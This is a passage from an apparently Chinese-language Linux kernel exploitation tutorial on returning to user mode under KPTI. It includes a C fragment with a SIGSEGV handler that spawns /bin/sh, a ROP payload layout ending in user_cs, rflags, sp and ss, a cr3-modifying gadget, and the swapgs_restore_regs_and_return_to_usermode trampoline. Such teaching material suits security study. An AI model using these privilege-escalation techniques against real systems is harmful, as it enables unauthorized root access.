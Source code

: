		void trigger(){
			//这是一个用来触发 SIGSEGV 的函数
		}

		void SIGSEGV_shell(){
			system("/bin/sh");
			return;
		}

		int main(){
			signal(SIGSEGV,SIGSEGV_shell);
			save_status();
			...
			payload[l ++] = (size_t)trigger;

			payload[l ++] = user_cs;
			payload[l ++] = user_rflags;
			payload[l ++] = user_sp;
			payload[l ++] = user_ss;
		}
		```

	2. 修改 cr3
   
		可以利用内核映像中现有的 gadget，在 iretq 前使得 cr3 寄存器第 13 位的值置为 1 即可

		```assembly
		mov     rdi, cr3
		or      rdi, 1000h
		mov     cr3, rdi
		```

		也可以使用 `swapgs_restore_regs_and_return_to_usermode` 这个函数返回  
		首先输入命令 `cat /proc/kallsyms| grep swapgs_restore_regs_and_return_to_usermode` 找到其在内核中的地址，然后构造 栈中数据如下所示，使得 ip 跳转到 `swapgs_restore_regs_and_return_to_usermode` 中的命令 `mov     rdi, rsp` 处

		```assembly
		swapgs_restore_regs_and_return_to_usermode

		pop     r15
		pop     r14
		pop     r13
		pop     r12
		pop     rbp
		pop     rbx
		pop     r11
		pop     r10
		pop     r9
		pop     r8
		pop     rax
		pop     rcx
		pop     rdx
		pop     rsi
		mov     rdi, rsp            //跳转到此处
		mov     rsp, gs: 0x5004
		push    qword ptr [rdi+30h]
		push    qword ptr [rdi+28h]
		push    qword ptr [rdi+20h]
		push    qword ptr [rdi+18h]
		push    qword ptr [rdi+10h]
		push    qword ptr [rdi]
		push    rax
		nop
		mov     rdi, cr3            //将 cr3 寄存器的值赋值给 rdi
		jmp     _临时地址  
